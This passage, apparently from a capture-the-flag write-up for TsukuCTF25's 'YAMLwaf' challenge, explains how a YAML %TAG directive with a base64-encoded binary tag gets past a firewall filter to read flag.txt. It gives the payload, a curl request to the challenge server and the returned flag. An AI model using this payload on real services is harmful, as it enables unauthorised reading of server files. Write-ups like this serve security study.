 - Then we use `file: !b! ZmxhZy50eHQ=` to tag the file with `!b!binary` and `ZmxhZy50eHQ=` is the base64 encoded `flag.txt`.

So the flow is: <br>
```yaml
%TAG !b! tag:yaml.org,2002:binary
---
file: !b! ZmxhZy50eHQ=
```

When the server parse, it see `!b!` is alias for `tag:yaml.org,2002:binary` and this URI schema use `binary` type to encode the file. <br>
So it will decode the `ZmxhZy50eHQ=` to `flag.txt` and retrieve object with `file` key with value is the content of `flag.txt`. <br>

```bash
➜  YAMLwaf curl -X POST "http://challs.tsukuctf.org:50001" \
     -H "Content-Type: text/plain" \
     -d $'%TAG !b! tag:yaml.org,2002:binary\n---\nfile: !b! ZmxhZy50eHQ='
TsukuCTF25{YAML_1s_d33p!}
```

**Flag:** `TsukuCTF25{YAML_1s_d33p!}`